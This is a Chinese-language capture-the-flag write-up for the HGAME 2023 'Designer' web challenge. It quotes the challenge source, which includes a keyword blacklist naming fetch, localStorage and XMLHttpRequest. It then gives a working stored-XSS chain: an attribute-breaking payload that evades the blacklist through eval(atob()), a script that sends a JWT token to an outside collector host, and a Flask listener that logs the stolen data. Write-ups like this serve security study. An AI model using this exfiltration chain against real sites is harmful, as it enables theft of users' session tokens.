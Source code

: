 ## [HGAME 2023 week2]Designer

查看代码,只有本地登录的用户才能在JWT中拥有flag
<details>
<summary> button/share 路由代码 </summary>
```js
app.post("/button/share", auth, async (req, res) => {
    const browser = await puppeteer.launch({
    headless: true,
    executablePath: "/usr/bin/chromium",
    args: ['--no-sandbox']
    });
    const page = await browser.newPage()
    const query = querystring.encode(req.body)
    await page.goto('http://127.0.0.1:9090/button/preview?' + query)
    await page.evaluate(() => {
    return localStorage.setItem("token", "jwt_token_here")
    })
    await page.click("#button")
    
    res.json({ msg: "admin will see it later" })
})
```
</details>


题目的 `/button/share` 路由是打开浏览器访问 http://127.0.0.1:9090/button/preview 这个页面。这个页面也在代码的路由中，

<details>
<summary> button/preview 路由代码 </summary>
```js
app.get("/button/preview", (req, res) => {
  const blacklist = [
    /on/i, /localStorage/i, /alert/, /fetch/, /XMLHttpRequest/, /window/, /location/, /document/
  ]
  for (const key in req.query) {
    for (const item of blacklist) {
      if (item.test(key.trim()) || item.test(req.query[key].trim())) {
        req.query[key] = ""
      }
    }
  }
  res.render("preview", { data: req.query })
})
```
</details>

常见的注入点都被过滤了，比如onclick等，不过问题不大，查阅preview.ejs代码就很容易发现：

```html
	<a class="button" id="button" style="<% for (const key in data) {  %><%- key %>:<%- data[key] %> ;<% }; %>">
	CLICK ME
	</a>
```

按钮是通过字符串拼接的方式设置style的，因此，只需要有一个"就能将HTML语句截断，由于脚本中不能出现window等词语，因此，可以考虑使用atob函数解码字符串后，使用eval函数执行语句，构造的js脚本需要能获取localStorage中的内容，并上传到接收信息的服务器。以下是我构造的脚本：
<details>
<summary> xss脚本 </summary>
```js
async function r() {
    var a = new XMLHttpRequest();
    var b = new FormData();
    fetch('http://127.0.0.1:9090/user/register', {
        method: 'POST',
        body: { "username": "admin" }
    })
        .then(response => response.text())
        .then(data => {
            b.append('token', data);
            a.open('POST', "http://ctf.xxx.cn:65502/a/stat.gif");
            a.send(b)
        })
}
r();
// 代码可能有点乱，我根据参考的writeup写的，fetch部分是gpt生成的
```
</details>

将上脚本base64编码，然后POST请求/button/share 接口，请求内容为：
```json
	{"border-radius":"\"><script>eval(atob('BASE64编码内容'))</script>"}
```

VPS中运行一个flask服务，接收请求
<details>
<summary> flask服务代码 </summary>
```python
from flask import Flask,request

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['POST','GET'])
def catch_all(path):
    app.logger.info(request.get_data())
    return 'yes'
if __name__ == '__main__':
    app.run(debug=True,port=65502,host='0.0.0.0')
```

</details>

在vps中等着日志就行
![flag](image/HGAME2023week2Designer.png)
最后将日志中获得的jwt解码一下，就获得flag

参考 [vvbbnn00师傅的writeup](https://blog.vvbbnn00.cn/archives/hgame2023week2-bu-fen-writeup)




